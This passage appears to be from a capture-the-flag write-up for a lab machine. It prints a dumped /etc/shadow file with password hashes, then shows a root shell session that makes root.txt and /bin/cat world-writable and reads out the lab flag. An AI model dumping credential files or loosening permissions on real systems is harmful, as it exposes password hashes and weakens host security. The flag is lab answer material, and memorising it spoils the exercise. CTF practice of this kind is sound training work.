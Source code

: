 ```
syslog:*:17959:0:99999:7:::
messagebus:*:17959:0:99999:7:::
usbmux:*:17959:0:99999:7:::
dnsmasq:*:17959:0:99999:7:::
avahi-autoipd:*:17959:0:99999:7:::
kernoops:*:17959:0:99999:7:::
rtkit:*:17959:0:99999:7:::
saned:*:17959:0:99999:7:::
whoopsie:*:17959:0:99999:7:::
speech-dispatcher:!:17959:0:99999:7:::
avahi:*:17959:0:99999:7:::
lightdm:*:17959:0:99999:7:::
colord:*:17959:0:99999:7:::
hplip:*:17959:0:99999:7:::
pulse:*:17959:0:99999:7:::
sshd:*:19516:0:99999:7:::
mario:$6$KwN00.jL$8GveAm2qtkF2n9eaCw/HuPKtcG.wJDCBT0BBSIWwjzPh/B46fUULtQ.frpYsKna3yl.KLP3KH9Ktp6HfQlHK/.:19517:0:99999:7:::
toad:$6$2vvV3OuC$b3qt0ut/ajEz2FOF2pcaIQGk2EIo67qN.83yYREzHUQh7azE.fvMMpDM0V94irZajzfoEDIJjEANeM5maMiun/:19751:0:99999:7:::
mysql:!:19685:0:99999:7:::
```


after playing with the root.txt file, turns out you need to changes permissions for /bin/cat

```
# cat /root/root.txt
cat /root/root.txt
cat: /root/root.txt: Permission denied
# chattr -a /root/root.txt
chattr -a /root/root.txt
# chmod 777 /root/root.txt
chmod 777 /root/root.txt
# cat /root/root.txt
cat /root/root.txt
cat: /root/root.txt: Permission denied
# cd /root
cd /root
# ls
ls
counter.sh  root.txt
# cat root.txt
cat root.txt
cat: root.txt: Permission denied
# ls -la root.txt
ls -la root.txt
-rwxrwxrwx 1 root root 38 Nov 27  2023 root.txt
# which cat  
which cat
/bin/cat
# chmod 777 /bin/cat
chmod 777 /bin/cat
# cat /root/root.txt
cat /root/root.txt
thm{e8b2f52d88b9930503cc16ef48775df0}
# 
```
